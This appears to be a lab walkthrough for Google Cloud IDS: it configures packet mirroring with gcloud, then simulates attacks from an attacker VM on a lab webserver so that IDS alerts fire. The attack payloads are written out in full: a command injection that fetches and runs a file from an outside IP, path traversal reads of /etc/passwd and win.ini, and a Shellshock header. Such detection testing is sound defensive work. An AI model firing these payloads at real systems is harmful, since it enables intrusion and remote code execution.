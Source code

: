 ## From the webserver, create the Cloud IDS packet mirroring policy/rules, to determine what traffic is sent to Cloud IDS.   Attach the policy to the Cloud IDS endpoint.

```
gcloud ids endpoints list --project=$PROJECT_ID | grep STATE

IDS endpoint forwarding rule and confirm endpoint is ready:
export FORWARDING_RULE=$(gcloud ids endpoints describe cloud-ids-east1 --zone=us-east1-b --format="value(endpointForwardingRule)")
echo $FORWARDING_RULE

Create and attach the packet mirroring policy:
gcloud compute packet-mirrorings create cloud-ids-packet-mirroring \
--region=us-east1 \
--collector-ilb=$FORWARDING_RULE \
--network=cloud-ids \
--mirrored-subnets=cloud-ids-useast1

Verify policy is created:
gcloud compute packet-mirrorings list

```

##Simulate traffic attack
```
SSH to attacker vm through IAP Proxy:
gcloud compute ssh attacker --zone=us-east1-b --tunnel-through-iap


Create traffic to the webserver with various severity:

Low:
curl "http://192.168.10.20/weblogin.cgi?username=admin';cd /tmp;wget http://123.123.123.123/evil;sh evil;rm evil"

Medium:
curl http://192.168.10.20/?item=../../../../WINNT/win.ini
curl http://192.168.10.20/eicar.file

High:
curl http://192.168.10.20/cgi-bin/../../../..//bin/cat%20/etc/passwd

Critical:
curl -H 'User-Agent: () { :; }; 123.123.123.123:9999' http://192.168.10.20/cgi-bin/test-critical


```

###Cloud IDS Review:


